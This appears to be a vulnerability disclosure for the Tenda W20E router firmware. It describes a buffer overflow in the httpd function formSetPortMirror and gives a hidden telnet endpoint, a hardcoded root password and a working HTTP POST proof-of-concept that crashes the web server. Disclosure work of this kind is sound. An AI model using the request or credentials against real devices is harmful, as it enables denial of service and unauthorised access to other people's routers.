





# Tenda W20E  Buffer overflow vulnerability
## Overview
- Manufacturer's website information：https://www.tenda.com.cn/
- Firmware download address ：https://www.tenda.com.cn/product/download/W20E.html

## Vulnerability information
There is an buffer overflow vulnerability in tenda W20E V16.01.0.6(3392), which can cause httpd to crash and restart.
## Affected version



Figure shows the latest firmware ：V16.01.0.6(3392)

## Vulnerability details
open telnet  http://192.168.0.1/goform/telnet
telnet admin/password is root/ Fireitup

using ida to analysis httpd, in function formSetPortMirror, the corresponding function field is setPortMirror.



In function formSetPortMirror:



The program passes the contents obtained by the portMirrorMirroredPorts parameter to pMirroredPorts.   
Then, format the matching content of pMirroredPorts through the sprintf function into sMibValue.   
There is no size check, so there is a vulnerability that can cause buffer overflow through portMirrorMirroredPorts field.

The corresponding web page is as follws:


## Vulnerability exploitation condition
Need to get cookie after logging in to execute the attack.

The functional data packets are as follows, and we will use this to construct poc.

```http
POST /goform/module?1668753675738 HTTP/1.1
Host: 192.168.0.1
Content-Length: 95
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/index.html?v=3392
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: curShow=; bLanguage=cn; sessionid=W20Ev5:0.133.2:f012ed
Connection: close

{"setPortMirror":{"portMirrorEn":true,"portMirrorLanPort":4,"portMirrorMirroredPorts":"1,0,0a*200"}}
```

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:



And attack twice:



Figure shows POC attack effect, the binary httpd restarts, because the process id changed.


## CVE-ID
unsigned